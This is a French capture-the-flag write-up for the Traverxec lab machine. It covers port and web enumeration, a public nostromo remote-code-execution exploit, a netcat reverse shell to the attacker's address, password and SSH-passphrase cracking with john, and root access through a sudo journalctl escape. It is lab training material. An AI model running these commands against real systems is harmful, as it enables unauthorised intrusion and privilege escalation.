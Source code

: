 ![Pic1](../img/traverxec1.PNG?raw=true) </br>

# Présentation
Traverxec est une box Linux dont l'adresse IP est 10.10.10.165.</br>

Compétences mises en oeuvre :</br>
* Enumération des ports et services d'une machine distante.
* Enumération des dossiers et fichiers d'un site web.
* Identifier site web vulnérable.
* Recherche et exploitation d'un exploit.
* Utilisation de id_rsa pour se connecter sans mot de passe.
* Elévation de privilège via une commande en sudo.
</br>

# Enumération initiale

Nous commençons l'énumération par les ports et services disponibles avec nmap :
```bash
$ nmap -T4 -A 10.10.10.165
```
![Pic2](../img/traverxec2.PNG?raw=true) </br>
Deux ports sont ouverts :</br>
* 22 pour un OpenSSH en version 7.9
* 80 pour un serveur web nostromo en version 1.9.6
</br>

Nous allons faire une énumération des fichiers et dossiers présents sur le site web avec dirsearch :  
```bash
$ dirsearch -w wordlist -e "php,txt" -f -t 100 -x 400,403,404,501 -u http://10.10.10.165/
```
![Pic3](../img/traverxec3.PNG?raw=true) </br>

# Obtenir un accès utilisateur
Nous avons vu que le serveur web en écoute était un nostromo 1.9.6, ce qui n'est pas commun, nous allons voir s'il existe un exploit pour 
cette version avec searchsploit :
```bash
$ searchsploit nostromo
```
![Pic4](../img/traverxec4.PNG?raw=true) </br>

Nous allons chercher la RCE qui correspond à la version de nostromo et l'executer :
```bash
$ locate 47837.py
$ cp /usr/share/exploitdb/exploits/multiple/remote/47837.py ./
$ cat 47837.py
```
![Pic5](../img/traverxec5.PNG?raw=true) </br>
Pour l'utiliser, il faut mettre en argumant l'ip de la box + son port + la commande à exécuter, donc nous testons :
```bash
$ python 47837.py 10.10.10.165 80 hostname
```
![Pic6](../img/traverxec6.PNG?raw=true) </br>
Nous allons alors utiliser le netcat de la box pour obtenir un shell :
```bash
# Nous mettons un listener sur notre machine :
$ nc -lvnp 4567
# Toujours sur notre machine mais sur un autre shell :
$ python 47837.py 10.10.10.165 80 "nc 10.10.14.6 4567 -c bash"
```
![Pic7](../img/traverxec7.PNG?raw=true) </br>
Nous avons un shell en tant que www-data, nous allons faire de l'énumération de base :
```bash
$ python -c "import pty;pty.spawn('/bin/bash')"
$ find / -type d -perm 0755 2>/dev/null
```
![Pic8](../img/traverxec8.PNG?raw=true) </br>
Un résultat (non-exhaustif) plutot dense mais nous pouvons voir que nous avons accès a plusieurs fichiers de Nostromo, y compris son fichier de configuration nhttpd.conf :
```bash
$ cat /var/nostromo/conf/nhttpd.conf
$ cat /var/nostromo/conf/.htpasswd
```
![Pic9](../img/traverxec9.PNG?raw=true) </br>
Le fichier nhttpd.conf va lire le mot de passe de l'utilisateur david dans le fichier .htpasswd, grâce à lui nous avons son hash, que nous crackons avec john :
```bash
$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic10](../img/traverxec10.PNG?raw=true) </br>
Nous avons donc un utilisateur et son mot de passe : david:Nowonly4me</br>
Malheureusement, ce mot de passe n'est que pour le serveur web Nostromo. Néanmoins, dans le fichier nhttpd.conf, il y a un répertoire public_www de spécifié. Nous allons
donc commencer l'énumération par là-bas :
```bash
$ ls -aril /home/david/public_www
```
![Pic11](../img/traverxec11.PNG?raw=true) </br>
Nous voyons un dossier protected-file-area qui contient une archive que nous allons dézipper :
```bash
$ ls protected-file-area
$ cd protected-file-area
$ cp backup-ssh-identity-files.tgz /tmp/
$ tar zxvf /tmp/backup-ssh-identity-files.tgz
```
![Pic12](../img/traverxec12.PNG?raw=true) </br>
Des fichiers concernant ssh, nous pouvons alors récupérer id_rsa pour se connecter à distance sur la machine en ssh, il va falloir cracker la passphrase avec john :
```bash
$ ssh2john.py id_rsa > passphrase_hash
$ john passphrase_hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic13](../img/traverxec13.PNG?raw=true) </br>
Nous pouvons alors nous connecter en tant que david en ssh et récupérer le user.txt :
```
$ cmod 600 id_rsa
$ ssh -i id_rsa david@10.10.10.165
passphrase : hunter
```
![Pic14](../img/traverxec14.PNG?raw=true) </br>

# Obtenir un accès root
Dans le /home de david, un dossier bin est présent, il contient :
```bash
$ cd bin
$ ls -aril
```
![Pic15](../img/traverxec15.PNG?raw=true) </br>
Voici ce que contient les fichiers :
```bash
$ cat server-stats.head
$ cat server-stats.sh
```
![Pic16](../img/traverxec16.PNG?raw=true) </br>
Apparament, en tant que David, nous pouvons utiliser la commande journalctl avec sudo en gardant la syntaxe vu dans le fichier. Nous allons donc chercher sur le site GTFOBin un moyen d'obtenir un
shell root avec la commande en sudo :
```bash
$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.services
!/bin/sh
# cat /root/root.txt
```
![Pic17](../img/traverxec17.PNG?raw=true) </br>